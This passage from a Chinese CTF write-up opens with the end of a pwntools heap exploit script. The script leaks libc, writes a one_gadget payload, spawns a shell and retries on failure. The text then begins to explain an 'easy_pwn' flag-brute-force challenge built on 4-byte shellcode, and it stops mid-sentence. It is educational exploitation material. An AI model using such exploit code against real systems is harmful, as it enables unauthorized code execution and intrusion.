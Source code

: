 ```python
		dele(0)
		add('aaa',0x80,'3'*8)
		show()
		io.recvuntil('3'*8)
		libcbase = u64(io.recv(6).ljust(8,'\x00')) - 0x3c4b78
		success('libc: '+hex(libcbase))
		dele(0)
		gdb.attach(io)
		url = "%61"*16
		edit(1,url,'1')
		#debug()
		pay = p64(0)+p64(0x21)+p64(0)*2
		pay += finalonegadget(libc,libcbase)
		#io.sendlineafter('Input your choice >>','3')
		io.sendline('')
		io.sendline('')
		io.sendline('')
		#debug()
		#io.interactive()
		#io.sendline('3')
		edit(1,'1',pay)
		#debug()
		io.sendlineafter('hoice >>','1')
		io.sendlineafter('rl: ','1')
		io.sendlineafter('size: ','64')
		#n =n-1
		io.recv()
		io.sendline('ls')
		io.recv()
		success('got shell !')
		io.interactive()
	except EOFError:
		n = n +1
		print "Trying ..."+str(n)
```



## easy_pwn

大概就是程序把flag读到了堆上，输入一个idx，返回flag中的一个字节。

输入一段4字节的shellcode。输入一个size并新建对应大小的chunk，向里面输入字符串，打印出输入的字符串，这里注意这个printf函数带了一个并不需要的参数`size`，即输出的长度。

![5d00d49983a4d73038](https://i.loli.net/2019/06/12/5d00d49983a4d73038.png)

然后执行之前输入的`shellcode`，将返回值rax与刚刚返回地flag进行比较。相同和不相同输出不同的字符串。



所以思路就是爆破，利用shellcode来控制rax为爆破的字符。

但是程序限制了shellcode只能使用给定范围之内的:
